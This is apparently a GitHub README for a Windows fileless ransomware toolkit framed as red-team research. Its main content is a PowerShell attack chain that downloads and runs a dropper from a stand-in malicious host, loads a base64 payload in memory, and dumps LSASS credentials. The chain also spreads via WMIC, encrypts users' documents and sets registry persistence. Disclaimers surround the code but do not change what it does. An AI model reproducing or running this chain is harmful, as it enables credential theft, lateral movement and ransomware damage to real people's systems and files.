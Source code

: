 
# NSFW: Fileless Polymorphic Hybrid Malware & LOLBins Research

![Demo Screenshot](https://github.com/user-attachments/assets/f93a65bd-d000-41f0-a941-631f047417e4)

---

## 🧠 Summary: What Is NSFW?

NSFW (Net Sharing Fileless Wiperware) is a Windows focused malware dev:

- **Fileless malware**, which operates solely in memory to bypass traditional AV/EDR.
- **Polymorphic behavior**, making detection more difficult via mutation at runtime.
- **LOLBins (Living Off the Land Binaries)**, trusted system binaries leveraged for offensive operations without dropping executables on disk.

This toolkit helps simulate a realistic adversary kill chain using MITRE ATT&CK techniques, entirely fileless and stealthy in nature.

---

## 🔓 Fileless Ransomware Lab Example (LOLBins in Action)

> **Warning:** This is a synthetic simulation for red team research.  
> **Never run outside of an isolated test lab.**

```powershell
# Initial Access (T1190) - Load dropper via web
IEX(New-Object Net.WebClient).DownloadString("http://malicious.com/dropper.ps1")

# Execution (T1059.001) - Decode & load payload
$bytes = [System.Convert]::FromBase64String("[Base64Payload]") 
[System.Reflection.Assembly]::Load($bytes)

# Privilege Escalation (T1548)
Start-Process powershell -Args "-ExecutionPolicy Bypass -File C:\Temp\elevate.ps1" -Verb RunAs

# Credential Access (T1003.001)
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).Id C:\Temp\lsass.dmp full

# Lateral Movement (T1021.001)
wmic /node:targetPC process call create "powershell.exe -File \\share\payload.ps1"

# File Encryption (T1486)
$files = Get-ChildItem -Path "C:\Users\*\Documents" -Include *.docx,*.pdf -Recurse
foreach ($file in $files) {
  $data = Get-Content $file.FullName -Raw
  $aes = New-Object System.Security.Cryptography.AesManaged
  $aes.Key = [Text.Encoding]::UTF8.GetBytes("RANDOM-GEN-KEY-1234567890123456")
  $aes.IV = New-Object byte[] 16
  $enc = $aes.CreateEncryptor().TransformFinalBlock([Text.Encoding]::UTF8.GetBytes($data), 0, $data.Length)
  Set-Content -Path $file.FullName -Value ([Convert]::ToBase64String($enc))
}

# Persistence (T1547.001)
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "ransomware" -Value "powershell -File C:\Temp\persist.ps1"
````

---

## 🧭 Additional Resources

* [LOLOL Farm – LOLBin Playground](https://lolol.farm/)
* [LOLGEN – Generate LOLBin Chains](https://lolgen.hdks.org/)
* [MITRE ATT\&CK: S0697](https://attack.mitre.org/software/S0697/)
* [DLL Injection Primer](https://www.crow.rip/crows-nest/mal/dev/inject/dll-injection)
* [Print Spooler Exploit Chain](https://itm4n.github.io/printnightmare-not-over/)
* [Fileless Malware Wikipedia](https://en.wikipedia.org/wiki/Fileless_malware)

---

## ⚖️ Legal & Ethical Advisory

> 📢 **Important Notice:**
> This repository is for **educational and research purposes only**.
> You are responsible for complying with all local, national, and international laws when using any code or technique from this project.
>
> * Do **not** use NSFW for malicious activity.
> * Do **not** deploy in any production or unauthorized environment.
> * Use in **air-gapped**, **isolated**, and **sandboxed labs** only.
>
> **Violations of law or professional ethics are your liability.**



